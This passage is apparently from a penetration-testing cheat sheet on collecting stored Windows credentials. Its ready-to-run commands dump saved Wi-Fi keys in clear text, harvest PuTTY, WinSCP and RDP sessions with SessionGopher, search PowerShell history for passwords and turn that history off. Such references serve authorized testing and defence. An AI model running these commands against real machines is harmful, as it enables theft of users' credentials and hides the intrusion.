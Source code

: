 Oneliner method to extract wifi passwords from all the access point.

```batch
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

### Sticky Notes passwords

The sticky notes app stores it's content in a sqlite db located at `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite`

### Passwords stored in services

Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using [SessionGopher](https://github.com/Arvanaghi/SessionGopher)

```powershell
https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```

### Passwords stored in Key Manager

:warning: This software will display its output in a GUI

```ps1
rundll32 keymgr,KRShowKeyMgr
```

### Powershell History

Disable Powershell history: `Set-PSReadlineOption -HistorySaveStyle SaveNothing`.

```powershell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw
```

### Powershell Transcript

```xml
C:\Users\<USERNAME>\Documents\PowerShell_transcript.<HOSTNAME>.<RANDOM>.<TIMESTAMP>.txt
C:\Transcripts\<DATE>\PowerShell_transcript.<HOSTNAME>.<RANDOM>.<TIMESTAMP>.txt
```

### Password in Alternate Data Stream

```ps1
PS > Get-Item -path flag.txt -Stream *
PS > Get-Content -path flag.txt -Stream Flag
```
